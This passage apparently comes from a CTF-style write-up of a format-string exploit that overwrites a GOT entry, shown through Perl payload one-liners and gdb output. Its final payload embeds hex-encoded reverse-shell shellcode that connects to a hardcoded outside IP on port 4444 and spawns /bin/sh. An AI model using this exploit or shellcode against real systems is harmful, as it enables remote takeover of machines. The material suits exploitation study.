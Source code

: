 Update the format string:
```
	perl -e 'print "A"x8 .                                                \
	"%038\$nCCCCCCC"."%039\$nCCCCCCC"."%040\$nCCCCCCC"."%041\$nCCCCCCC".  \
	"%042\$nCCCCCCC"."%043\$nCCCCCCC"."%044\$nCCCCCCC"."%045\$nCCCCCCC".  \
	"\x78\x20\x60\x00\x00\x00\x00\x00"."\x79\x20\x60\x00\x00\x00\x00\x00".\
	"\x7a\x20\x60\x00\x00\x00\x00\x00"."\x7b\x20\x60\x00\x00\x00\x00\x00".\
	"\x7c\x20\x60\x00\x00\x00\x00\x00"."\x7d\x20\x60\x00\x00\x00\x00\x00".\
	"\x7e\x20\x60\x00\x00\x00\x00\x00"."\x7f\x20\x60\x00\x00\x00\x00\x00"'
```
```
=> 0x401012 <getcode+940>:	lea    -0x240(%rbp),%rax
(gdb) x/8xb 0x602078
0x602078 <close@got.plt>:	0x08	0x0f	0x16	0x1d	0x24	0x2b	0x32	0x39
```
Ok, we can overwrite the address in GOT, but we need the right values:
```
	Current: 0x08	0x0f	0x16	0x1d	0x24	0x2b	0x32	0x39
	Goal   : 0xc0	0xda	0xff	0xff	0xff	0x7f	0x00	0x00
```
After a bit we found the correct string:
```
	perl -e 'print "AAA%189x" .											  \
	"%038\$nCC%024x"."%039\$nCC%035x"."%040\$nCC%254x"."%041\$nCC%254x".  \
  	"%042\$nCC%126x"."%043\$nCC%127x"."%044\$nCC%254x"."%045\$nCCCCCCC".  \
	"\x78\x20\x60\x00\x00\x00\x00\x00"."\x79\x20\x60\x00\x00\x00\x00\x00".\
	"\x7a\x20\x60\x00\x00\x00\x00\x00"."\x7b\x20\x60\x00\x00\x00\x00\x00".\
	"\x7c\x20\x60\x00\x00\x00\x00\x00"."\x7d\x20\x60\x00\x00\x00\x00\x00".\
	"\x7e\x20\x60\x00\x00\x00\x00\x00"."\x7f\x20\x60\x00\x00\x00\x00\x00"'
```
```
(gdb) x/8xb 0x602078
0x602078 <close@got.plt>:	0xc0	0xda	0xff	0xff	0xff	0x7f	0x00	0x00
(gdb) cont
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffdac0 in ?? ()
```
Awesome! Let's add the shellcode, AFTER the format string (otherwise the format string will messed
up).
```
	perl -e 'print "AAA%189x" .                                           \
	"%038\$nCC%024x"."%039\$nCC%035x"."%040\$nCC%254x"."%041\$nCC%254x".  \
	"%042\$nCC%126x"."%043\$nCC%127x"."%044\$nCC%254x"."%045\$nCCCCCCC".  \
	"\x78\x20\x60\x00\x00\x00\x00\x00"."\x79\x20\x60\x00\x00\x00\x00\x00".\
	"\x7a\x20\x60\x00\x00\x00\x00\x00"."\x7b\x20\x60\x00\x00\x00\x00\x00".\
	"\x7c\x20\x60\x00\x00\x00\x00\x00"."\x7d\x20\x60\x00\x00\x00\x00\x00".\
	"\x7e\x20\x60\x00\x00\x00\x00\x00"."\x7f\x20\x60\x00\x00\x00\x00\x00".\
	"\x90"x100 .														  \
	"\x31\xf6\xf7\xe6\xff\xc6\x6a\x02\x5f\x04\x29\x0f\x05\x50\x5f\x52\x52\xc7\x44\x24\x04\x80\xd3\xbd\x54\x66\xc7\x44\x24\x02\x11\x5c\xc6\x04\x24\x02\x54\x5e\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\x56\x5a\x56\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05".\
	"A"x40'
```
```
(gdb) x/64xg $rsp
	0x7fffffffd9f0:	0x0000000500000006	0x00007fffffffdee0
	0x7fffffffda00:	0x0000000d00000040	0x00007fffffffdce0
	0x7fffffffda10:	0x2e3131322e383231	0x000034382e393831
	0x7fffffffda20:	0x0000000000000000	0x0000000000000000
	0x7fffffffda30:	0x0000000000000000	0x0000000000000000
	0x7fffffffda40:	0x00007ffff7ff99c8	0x00000000006051c0
	0x7fffffffda50:	0x0000000000000000	0x0000000000000001
	0x7fffffffda60:	0x0000000000000000	0x0000000000000000
	0x7fffffffda70:	0x0000000000000000	0x0000000000000000
```
